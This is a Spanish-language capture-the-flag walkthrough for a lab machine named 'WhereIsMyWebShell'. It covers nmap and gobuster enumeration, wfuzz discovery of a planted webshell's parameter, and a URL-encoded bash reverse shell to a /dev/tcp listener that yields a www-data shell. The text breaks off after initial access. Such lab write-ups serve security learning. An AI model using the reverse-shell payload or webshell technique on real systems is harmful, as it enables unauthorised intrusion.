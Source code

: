 # WhereIsMyWebShell

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
```
Reviamos la web vemos un mensaje que han dejado.
```
Contáctanos

¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```
Nos quedmos que tenenmos que revisar el direcctorio **/tmp** cuando tengamos acceso al equipo. De momento vamos a hacer fuzzing a ver si encontramos algo.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/.php                 (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished

```
Hay dos páginas que llaman la atención **/warning.html** y **/shell.php**, así que vamos a revisarlas.
En **/warning.html** encontramos el siguiente mensaje que ya nos indica que tenemos que buscar un parámetro para poder utilizar una websell.
```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```
```bash
wfuzz -c -t 200 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```
Utilizamos **wfuzz** para buscar el parámetro que nos falta con eso lanzarnos una revershell poniéndonos en escucha por el puerto 443 de nuestro equipo.
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000115401:   200        2 L      4 W        66 Ch       "parameter"
```
Nos ponemos en escucha por el puerto 443 y lanzamos una reverse shell desde la página **http://172.17.0.2/shell.php**
```bash
nc -lvnp 443
```

```bash
172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 %2Fdev%2Ftcp%2F172.17.0.1%2F443 0>%261"
```
```
 nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37622
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d9fa4b4b8612:/var/www/html$ whoami
whoami
www-data
```
